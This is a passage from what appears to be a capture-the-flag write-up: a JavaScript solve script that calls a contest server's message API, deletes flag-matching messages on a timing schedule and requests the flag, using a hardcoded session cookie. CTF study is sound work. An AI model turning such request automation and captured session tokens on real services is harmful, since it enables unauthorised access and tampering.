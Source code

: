 ```jsx
    "method": "POST"
  })
  const data = await req.json()
  if (!data.success) {
    console.error({...message, deltaTime})
    throw new Error(data.error)
  }
  return data
}
function isFlagMessage(content) {
  const regex = /hack\[[a-z]*\]/
  return regex.test(content)
}

(async () => {
  const req = await fetch("http://202.38.93.111:10021/api/getMessages", {
    "headers": {
      "accept": "application/json, text/plain, */*",
      "accept-language": "en,zh-CN;q=0.9,zh;q=0.8",
      "proxy-connection": "keep-alive",
      "cookie": cookie,
      "Referer": "http://202.38.93.111:10021/",
      "Referrer-Policy": "strict-origin-when-cross-origin"
    },
    "body": null,
    "method": "POST"
  })
  const data = await req.json()
  const messages = data.messages
  const startTime = Date.parse(data.server_starttime) // in millisecond
  const deleteQueries = []
  messages.forEach((message, index) =>{
    if (isFlagMessage(message.text)) {
      deleteQueries.push(deleteMessage(index, message, startTime))
    }
  })
  await Promise.all(deleteQueries)
  const getFlagReq = await fetch("http://202.38.93.111:10021/api/getflag", {
    "headers": {
      "accept": "application/json, text/plain, */*",
      "accept-language": "en,zh-CN;q=0.9,zh;q=0.8",
      "proxy-connection": "keep-alive",
      "cookie": "session=eyJ0b2tlbiI6Ijk3Ok1FVUNJUURWMlkxeDIwMVRJb01WUEpjQm9oS1dYc2J3S3FEUDhiclREZlZSNUl4S293SWdNTUQwZmdBMWdQdUNiOUZNeStkRmR3ZGk2aklPL053Z3NtcElqb0h5TTBBPSJ9.ZTzhXg.4PEl-WpS6SLSHVfyKRSSUBsg9Q4",
      "Referer": "http://202.38.93.111:10021/",
      "Referrer-Policy": "strict-origin-when-cross-origin"
    },
    "body": null,
    "method": "POST"
  })
  const getFlag = await getFlagReq.json()
  console.log(`The final flag status is: `, getFlag)
})()
```


[1]: 一共132560个解